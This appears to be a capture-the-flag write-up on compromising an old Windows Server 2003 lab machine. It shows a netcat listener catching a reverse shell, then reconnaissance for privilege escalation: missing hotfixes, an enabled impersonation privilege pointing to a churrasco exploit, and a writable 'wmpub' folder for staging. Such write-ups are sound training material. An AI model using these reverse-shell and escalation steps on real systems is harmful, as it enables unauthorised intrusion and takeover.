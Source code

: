```
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 4000
listening on [any] 4000 ...
connect to [10.10.16.8] from (UNKNOWN) [10.10.10.14] 1030
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.
c:\windows\system32\inetsrv>whoami
whoami
nt authority\network service
c:\windows\system32\inetsrv>
```

### Privilege Escalation to System Administrator

However, we realize that we are unable to obtain the flags as we do not have the required privileges.

```
C:\Documents and Settings>cd Harry
cd Harry
Access is denied.
```

Looking at the systeminfo, we can see that we are using an outdated operating system which is Microsoft(R) Windows(R) Server 2003, Standard Edition, and also there is only 1 hotfix applied and so this machine might be vulnerable to kernel exploits.

```
OS Name:                   Microsoft(R) Windows(R) Server 2003, Standard Edition
OS Version:                5.2.3790 Service Pack 2 Build 3790
Hotfix(s):                 1 Hotfix(s) Installed.
```

Next, checking the privileges that we have on this machine, we realize that the ```SeImpersonatePrivilege``` is enabled. This potentially means that the machine is potentially vulnerable to potato exploits or churrasco exploits. Since this is operating on an older version of Windows Server 2003, we will try the churrasco exploit. 

However, listing the permission on C:\Windows\Temp, we realize that we do not have the permissions to execute scripts on this folder.

```
C:\WINDOWS>icacls temp
icacls temp
Successfully processed 0 files; Failed processing 1 files
temp: Access is denied.
```

However, we are able to find a weird folder ```wmpub``` at the root directory. Listing the permissions show us that we have the permissions to download, upload and execute scripts on this folder.

```
C:\>icacls wmpub
icacls wmpub
wmpub BUILTIN\Administrators:(F)
      BUILTIN\Administrators:(I)(OI)(CI)(F)
      NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
      CREATOR OWNER:(I)(OI)(CI)(IO)(F)
      BUILTIN\Users:(I)(OI)(CI)(RX)
      BUILTIN\Users:(I)(CI)(AD)
      BUILTIN\Users:(I)(CI)(WD)

Successfully processed 1 files; Failed processing 0 files
```
